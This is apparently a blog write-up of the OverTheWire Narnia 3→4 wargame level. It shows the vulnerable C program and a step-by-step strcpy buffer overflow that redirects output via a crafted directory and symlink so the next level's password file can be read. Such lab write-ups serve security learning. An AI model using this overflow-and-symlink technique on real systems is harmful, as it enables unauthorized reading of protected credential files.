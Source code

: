 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 3 -> 4"
subtitle:   "Write-Up"
date:       2017-02-28 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
category: Write-Ups
---
```


<h1>Introduction</h1>

<p>Let's go back to another reverse engineering challenge from OverTheWire. This time we'll be dealing with a little different type of buffer overflow.  </p>

<h1>Challenge</h1>

<p>This time, let's start the program firstly. </p>

{% highlight text %}
narnia3@melinda:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
{% endhighlight %}

<p>Now let's take a look at the source code. </p>

{% highlight c %}
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];

        if(argc != 2){
                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                exit(-1);
        }

        /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
                printf("error opening %s\n", ofile);
                exit(-1);
        }
        if((ifd = open(ifile, O_RDONLY)) < 0 ){
                printf("error opening %s\n", ifile);
                exit(-1);
        }

        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

        /* close 'em */
        close(ifd);
        close(ofd);

        exit(1);
}
{% endhighlight %}

<p>This code may look complicated at the first. But, after taking a closer look, we can see a potential buffer overflow vulnerability in <b>ifile</b> buffer, which is 32 bytes in size. </p>

<p>Because <b>strcpy()</b> does not perform any checks of the length of the input, if I give a file name longer than 32 bytes in length, I would be able to overwrite the <b>ofile</b> from <b>/dev/null</b> to another file. </p>

<p>It's known bug in the strcpy man pages: </p>

<p><i>If the destination string of a strcpy() is not large enough, then  anything  might  happen.   Overflowing  fixed-length  string  buffers is a favorite cracker technique for taking complete control of the  machine. Any  time  a  program  reads  or copies data into a buffer, the program first needs to check that there's enough space.  This may  be  unnecessary  if you can show that overflow is impossible, but be careful: programs can get changed over time, in ways that may make  the  impossible possible.</i></p>

<p>Firstly, I'm going to create a file in <b>/tmp</b> directory, where possibly, the password for the next level will end up.  </p>

{% highlight text %}
narnia3@melinda:~$ cd /tmp
narnia3@melinda:/tmp$ touch w3ndige
{% endhighlight %}

<p>Then, I'm going to use Python, and calculate how long the directory should be, together with <b>/tmp/</b> beggining. We can also generate letters for our directory name. </p>

{% highlight python %}
>>> 32 - len("/tmp/")
27
>>> print("/tmp/" + "A"*27)
/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA
{% endhighlight %}

<p>Now, let's move on and create a directory. But because its name will only fulfill the buffer, we have to add another one, which will overwrite the buffer. </p>

{% highlight text %}
narnia3@melinda:/tmp$ mkdir AAAAAAAAAAAAAAAAAAAAAAAAAAW     
narnia3@melinda:/tmp$ cd AAAAAAAAAAAAAAAAAAAAAAAAAAW
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW$ mkdir tmp
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW$ cd tmp
{% endhighlight %}

<p>Now we can create a link using <b>ln</b> command on w3ndige file, to the password file. This means that when we cat the created file, it will actually cat the content of the password file “/etc/narnia_pass/narnia4”. We can also see, if it works, using <b>ls</b> command.  </p>

{% highlight text %}
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ ln -s /etc/narnia_pass/narnia4 ./w3ndige
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ ls -lh
total 0
lrwxrwxrwx 1 narnia3 narnia3 24 Feb 28 20:18 w3ndige -> /etc/narnia_pass/narnia4

{% endhighlight %}

<p>Now we have to pass this directory, as an argument, to the binary. Let's pray it works. </p>

{% highlight text %}
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ /narnia/narnia3 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp/w3ndige
copied contents of /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp/w3ndige to a safer place... (/tmp/w3ndige)
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ cat /tmp/w3ndige
**********
{% endhighlight %}

<p>And it worked, now we have the password! </p>

<h1>Conclusion</h1>
<p>Once gain thanks <a href="http://overthewire.org/wargames/">OverTheWire</a>! I'm definitely looking forward to new challenges from <b>Narnia</b>, as I'm getting more and more interested in reverse engineering. </p>

<p>~ Stay safe!</p>
